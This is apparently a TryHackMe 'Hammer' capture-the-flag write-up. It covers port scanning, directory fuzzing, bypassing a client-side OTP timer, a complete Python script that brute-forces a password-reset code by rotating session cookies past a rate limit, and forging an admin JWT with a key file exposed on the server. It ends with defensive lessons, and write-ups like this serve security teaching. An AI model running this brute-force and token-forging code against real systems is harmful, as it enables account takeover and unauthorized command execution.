


<br>

# Hammer
## Challenge description
With the Hammer in hand, can you bypass the authentication mechanisms and get RCE on the system?

Questions:
- What is the flag value after logging in to the dashboard?
- What is the content of the file /home/ubuntu/flag.txt?

## Table of contents

## Initial Contact and Discovery
Alright amici, let's get to this! The first thing to do is to find on what port this website is hosted. Apparently THM people hate the standard port 80 or 8000 but love the port 1337 (I honestly can't tell you why). If this is your first rodeo and are not familiar with these wacky port assignments, you can use the following nmap command to discover where the website is hosted:
```bash
nmap [MACHINE_IP] -p1-65535 -T4
```
This is not the prettiest solution as it will take a few minutes because it is scanning <b>all</b> ports, but it gets the job done with these non conventional ports.


Going to `http://[MACHINE_IP]:1337/`, we are greeted with a login page (unsurprisingly, since this challenge is in the Authentication module). The first thing I like to do with websites is to just take a look at what gifts the server has sent us. And what do you know, a comment slipped in the `<head>` tag that will help us a lot:
```html
<!-- Dev Note: Directory naming convention must be hmr_DIRECTORY_NAME -->
```

Ottimo! Now we know how to properly fuzz this website, but before we get into that, let's take a look at that juicy "Forgot your password?" link



Nothing too fancy here, just a normal reset password form. Passing a random email doesn't seem to work, so we need one that's already registered, let's do some fuzzing!

Knowing what the naming scheme is for directories, we can take a wordlist from [SecLists](https://github.com/danielmiessler/SecLists) and append the naming convention like this:
```bash
# Note that the path to SecLists may be different for you
sed 's/^/hmr_/' SecLists/Discovery/Web-Content/common.txt > hmr_seclists.txt 

# After crafting our custom list, we fuzz!
ffuf -w hmr_seclists.txt -u http://[MACHINE_IP]:1337/FUZZ
```

ffuf returns some interesting endpoints, in particular `hrm_logs` seems allettante. Going here we are greeted with, you guessed it, a log file... with an email address!
```text
[Mon Aug 19 12:00:01.123456 2024] [core:error] [pid 12345:tid 139999999999999] [client 192.168.1.10:56832] AH00124: Request exceeded the limit of 10 internal redirects due to probable configuration error. Use 'LimitInternalRecursion' to increase the limit if necessary. Use 'LogLevel debug' to get a backtrace.
[Mon Aug 19 12:01:22.987654 2024] [authz_core:error] [pid 12346:tid 139999999999998] [client 192.168.1.15:45918] AH01630: client denied by server configuration: /var/www/html/
[Mon Aug 19 12:02:34.876543 2024] [authz_core:error] [pid 12347:tid 139999999999997] [client 192.168.1.12:37210] AH01631: user tester@hammer.thm: authentication failure for "/restricted-area": Password Mismatch
[Mon Aug 19 12:03:45.765432 2024] [authz_core:error] [pid 12348:tid 139999999999996] [client 192.168.1.20:37254] AH01627: client denied by server configuration: /etc/shadow
[Mon Aug 19 12:04:56.654321 2024] [core:error] [pid 12349:tid 139999999999995] [client 192.168.1.22:38100] AH00037: Symbolic link not allowed or link target not accessible: /var/www/html/protected
[Mon Aug 19 12:05:07.543210 2024] [authz_core:error] [pid 12350:tid 139999999999994] [client 192.168.1.25:46234] AH01627: client denied by server configuration: /home/hammerthm/test.php
[Mon Aug 19 12:06:18.432109 2024] [authz_core:error] [pid 12351:tid 139999999999993] [client 192.168.1.30:40232] AH01617: user tester@hammer.thm: authentication failure for "/admin-login": Invalid email address
[Mon Aug 19 12:07:29.321098 2024] [core:error] [pid 12352:tid 139999999999992] [client 192.168.1.35:42310] AH00124: Request exceeded the limit of 10 internal redirects due to probable configuration error. Use 'LimitInternalRecursion' to increase the limit if necessary. Use 'LogLevel debug' to get a backtrace.
[Mon Aug 19 12:09:51.109876 2024] [core:error] [pid 12354:tid 139999999999990] [client 192.168.1.50:45998] AH00037: Symbolic link not allowed or link target not accessible: /var/www/html/locked-down
```

Now we can use this to perform a password reset, but when we go back to the reset page, we are greeted with a two factor authentication (2FA).

## Bypassing the 2FA
Upon clicking on reset password, a 4 digit login code is sent to the `tester@hammer.thm` email. While four digits seems very crackable, there's a timer attached to the OTP of 180 seconds, which is not enough time. So, as we did before, let's dig into the page. 

In the `<head>` tag of this page, we can find a javascript snippet that seems to be the manager of the timer logic, here it is for your reference: 
```javascript
let countdownv = 180;

function startCountdown() {
    
    let timerElement = document.getElementById("countdown");
    const hiddenField = document.getElementById("s");
    let interval = setInterval(function() {
        countdownv--;
            hiddenField.value = countdownv;
        if (countdownv <= 0) {
            clearInterval(interval);
            //alert("hello");
            window.location.href = 'logout.php'; 
        }
        timerElement.textContent = "You have " + countdownv + " seconds to enter your code.";
    }, 1000);
}
```

Wait a second, ENHANCE!
```javascript
    const hiddenField = document.getElementById("s");
    ...
    hiddenField.value = countdownv;
```

Mamma mia! The countdown is set on the <b>client</b> side! A quick look into burp confirms this behaviour:


We can easily set the `s` field to be a huge value and the OTP will never expire! Now that we have this we can start cracking, or so I thought.

This application has a second anti-bruteforce mechanism: a rate limit. After 6 failed attempts, the server will return: 
```http
HTTP/1.1 200 OK
Date: Fri, 18 Apr 2025 18:36:46 GMT
Server: Apache/2.4.41 (Ubuntu)
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Rate-Limit-Pending: 0
Content-Length: 44
Keep-Alive: timeout=5, max=93
Connection: Keep-Alive
Content-Type: text/html; charset=UTF-8

Rate limit exceeded. Please try again later.
```

Ok so we need to find a way to trick this obstacle. To do that, the key is to discover what the server considers when determining how many attempts we have left. Is it our IP? The email? How many parmiggiane di melanzane we ate that day?

Luckily none of these, it's the PHPSESSID. Since the number of tries is tied to this cookie, we can craft a custom script that refreshes this value every 6 tries. Here's mine:
```python
import requests
import re

BASE_URL = 'http://[MACHINE_IP]:1337'
HOMEPAGE = f'{BASE_URL}/'
RESET_ENDPOINT = f'{BASE_URL}/reset_password.php'
MAX_ATTEMPTS_PER_SESSION = 6
EMAIL = 'tester@hammer.thm'
EXTEND_TTL = '999999999'  
NEW_PASSWORD = 'MyN3w$tr0ngP@ss!'  # your chosen new password

# Regex to extract the hidden 's' value
TTL_REGEX = re.compile(r'name="s"\s+value="(\d+)"')

def new_session():
    """Start a new session and obtain a fresh PHPSESSID."""
    session = requests.Session()
    session.get(HOMEPAGE)  # hit homepage to set fresh PHPSESSID
    session.headers.update({
        'User-Agent': 'Mozilla/5.0 (X11; Linux x86_64)',
        'Origin': BASE_URL,
        'Referer': RESET_ENDPOINT
    })
    return session

def init_reset(session):
    """
    Trigger the password-reset flow for the email (including TTL extension)
    and parse out the 's' hidden field value.
    """
    data = {'email': EMAIL, 'extend_ttl': EXTEND_TTL}
    r = session.post(RESET_ENDPOINT, data=data)
    r.raise_for_status()
    match = TTL_REGEX.search(r.text)
    ttl = match.group(1) if match else None
    print(f"[+] Initialized reset")
    return ttl

def finalize_reset(session):
    """
    Submit the new password form using the current session.
    """
    r = session.post(RESET_ENDPOINT, data={
        'new_password': NEW_PASSWORD,
        'confirm_password': NEW_PASSWORD
    })
    if 'success' in r.text.lower():
        print("🎉 Password reset complete!")
    else:
        print("⚠  Reset may have failed, check the response:")
        print(r.text)

def brute_force():
    """Brute‑force the 4‑digit OTP by rotating sessions every MAX_ATTEMPTS."""
    code_iter = (f"{i:04d}" for i in range(10000))
    while True:
        session = new_session()
        ttl = init_reset(session)
        sessid = session.cookies.get('PHPSESSID')
        print(f"[🔑] Using PHPSESSID: {sessid}")
        for attempt in range(1, MAX_ATTEMPTS_PER_SESSION + 1):
            try:
                otp = next(code_iter)
            except StopIteration:
                print("[!] Exhausted all codes without success.")
                return
            r = session.post(RESET_ENDPOINT, data={
                'recovery_code': otp,
                's': ttl
            })
            if 'Invalid or expired recovery code' not in r.text:
                print(f"\n✅ Found OTP = {otp}")
                print(f"🔑 PHPSESSID: {sessid}")
                print(f"⏱ Hidden TTL (s): {ttl}\n")
                print("---- FULL HTTP RESPONSE ----")
                print(f"{r.request.method} {r.request.url} -> {r.status_code}")
                for k, v in r.headers.items():
                    print(f"{k}: {v}")
                print("\n" + r.text)
                # Automatically finalize the password reset
                finalize_reset(session)
                return
            print(f"[-] Tried {otp} ({attempt}/{MAX_ATTEMPTS_PER_SESSION})")

if __name__ == '__main__':
    brute_force()
```
After a few minutes we have succesfully reset tester's password and we can get our first flag from the dashboard! To do this just login with tester's email and, if you used my script, "MyN3w$tr0ngP@ss!". If this snippet looks a bit confusing to you, I have included a section at the bottom of this writeup that breaks this code down.

## Escalating our Privileges JSON Style
After logging in... we get logged out.

No your browser isn't broken (I thought mine was), whoever made this challenge added a maledetta surprise in the (you guessed it) `<head>` tag:
```javascript
function getCookie(name) {
    const value = `; ${document.cookie}`;
    const parts = value.split(`; ${name}=`);
    if (parts.length === 2) return parts.pop().split(';').shift();
}

function checkTrailUserCookie() {
    const trailUser = getCookie('persistentSession');
    if (!trailUser) {
    
        window.location.href = 'logout.php';
    }
}

setInterval(checkTrailUserCookie, 1000); 
```
To actually stay on the page for more than two seconds, we have a few options:
- Disable javascript from your browser's settings (the easiest way, but it will break the command prompt)
- Strip away the `<head>` section of the page
- Use Burp's repeater (or Postman) instead of the browser (this is what I did)

After disarming this code snippet, we can finally take a closer look at the dashboard page. 


From burpsuite's repeater, I tried sending a few request via that command prompt. Of all the commands I tried, only `ls` worked, and returned the following:
```JSON
{
    "output": "188ade1.key
    composer.json
    config.php
    dashboard.php
    execute_command.php
    hmr_css
    hmr_images
    hmr_js
    hmr_logs
    index.php
    logout.php
    reset_password.php
    vendor"
}
```
This looks familiar! It seems like this console is in the same directory as the website, good to know. But unfortunately this is as much as we can do with this console as just "user".

This nasty script, however, does have some gold in it. From it, we can see that there are three cookie passed in the request. One must be our `PHPSESSID`, the other is this annoying `persistentSession` but what about the third one?

Going into our browser storage section (or using Burp's proxy) we can see that there's a `token` cookie getting passed around. Coming from THM's Authorization module I immediately recognize that it's a JSON Web Token (JWT).

Using cyberchef, we can decode this token to get some more info:
```JSON
{
    "typ": "JWT",
    "alg": "HS256",
    "kid": "/var/www/mykey.key"
}
{
    "iss": "http://hammer.thm",
    "aud": "http://hammer.thm",
    "iat": 1745002874,
    "exp": 1745006474, // Note that for you this is probably expired
    "data": {
        "user_id": 1,
        "email": "tester@hammer.thm",
        "role": "user"
    }
}
```
There are two very interesting fields in this token. The first one is `"role"`, which is what we definitely want to modify to get higher privileges and fully use the console. The second one is "kid", that tells us that the key used to sign the JWT is in that directory. 

While we don't exactly have `mykey.key`, the `ls` command did list a 
`188ade1.key` file, maybe this is good enough? There's only one way to find out! 

To download the file, all we need to do is to visit the /188ade1.key endpoint and it will automatically download the file, andiamo to the forge!

All the JWT's you'll see in this writeup are created using [token.dev](https://token.dev/), but feel free to use whatever you want. 

Here's the first token I crafted:


What I did here is:
- Pasted the original JWT in the JWT String field
- Changed the head to have the `188ade1.key` instead of `mykey.key`
- Changed `"role"` from `"user"` to `"admin"`
- Used the contents of `188ade1.key` as the signing key (make sure to turn off Base64 encoded if using token.dev)

Unfortunately, this JWT is not quite right yet. But why? Well here's a better question: which directory are we in right now? Is it /var/www? Not necessarily!

While the console doesn't let us do print working directory `pwd`, we can use the log file from before to pinpoint our location, in particular this line: 
```text
[192.168.1.50:45998] AH00037: Symbolic link not allowed or link target not accessible: /var/www/html/locked-down
```
let's try this folder instead, here's the new token with the `"kid"` as `"/var/www/html/188ade1.key"`:

(Ignore the fact that it says "Jwt expired", if yours is expired too just extend the "exp" field)

Now we just send this with burp's repeater and... command not allowed?

Beh amici I spent a little too much time debugging this, but this is a pretty dumb mistake. If you're like me and got an error, you probably put the token in the `Cookies` section of your POST request. 

Welp I am sorry to tell you but JWTs don't go there, you should put them inside the `Authorization: Bearer` section for them to actually work. The cookie is tied to that annoying logout script, and has nothing to do with Auth. If you did everything correctly, you should be able to retrieve the second flag like this:


## intruder.py Script Breakedown
Alright so now that we don't have the anxiaty of our THM streak going away, let's take a moment to analyze the script I wrote for the first flag.

intruder.py is broken down into four main sections:

### Configuration and Constants
At the top we define the target URLs, the low‑privilege user’s email address, the maximum allowed attempts per session (6), and the “extend_ttl” exploit that freezes the countdown timer:

- BASE_URL, HOMEPAGE and RESET_ENDPOINT point to the password reset page.
- EMAIL is the victim’s account.
- EXTEND_TTL abuses our vulnerability to set the “s” timer to a huge value (TTL= Time-To-Live).
- MAX_ATTEMPTS_PER_SESSION makes sure we never trigger the per‑session lockout.
- NEW_PASSWORD holds the password we’ll inject once we’ve cracked the OTP.

### Session Management (new_session)
Each time we need a fresh 6‑attempt window, we spin up a new `requests.Session()` and hit the homepage to receive a new PHPSESSID cookie. We also set the standard headers (`User-Agent`, `Origin`, `Referer`) so the server sees our requests as coming from a real browser.

### Initializing the Reset Flow (init_reset)
With a clean session, we POST the victim’s email (plus our `extend_ttl` parameter) to `/reset_password.php`. The server responds with the intermediate form containing a hidden field `s=[VALUE]`, which we extract via a simple regex (`TTL_REGEX`). This value is our “session token” for the OTP form and it remains valid indefinitely thanks to the `extend_ttl` bug.

### Brute‑Force Loop and Finalization (brute_force + finalize_reset)
Inside an infinite loop we:
- Generate a fresh code iterator for all 10,000 combinations.

- Create a new session and call `init_reset()`, capturing both the TTL and the PHPSESSID.

- Attempt up to 6 codes (`MAX_ATTEMPTS_PER_SESSION`) in a tight loop, POSTing each `recovery_code=[OTP]&s=[TTL]`.

- As soon as the response stops returning “Invalid or expired recovery code,” we’ve hit the correct OTP. At this point the script prints:
The successful OTP
    - The active PHPSESSID cookie
    - The hidden TTL value
    - The entire HTTP request/response exchange (status code, headers, and body)

- Finally, the script calls `finalize_reset()`, which POSTS `new_password` and `confirm_password` back to the same endpoint, completing the password change automatically.

By rotating the session every six attempts and abusing the infinite TTL, this script tried all the 4‑digit combinations in batches without ever hitting the rate limit, and then wraps up the attack by pushing a new password for the victim account. Evviva!

## Conclusion
So, as always, what did we learn today?

- We know that 2FA can be a good thing as long as best practices are followed, such as:
    - Very short TTL for the token handled on the <b>server-side</b>, not the client
    - Rate limit that depends on multiple factors, such as geographical location, IP, <b> and</b> cookies.
- JWTs are a great way to secure your apps, as long as:
    - They are implemented correctly, meaning no logic flaws and accepting only a selected algorithm/key
    - You keep your keys in your pockets, and not in a public directory that any user can access

That's it for the Hammer amici! Ci vediamo alla prossima writeup!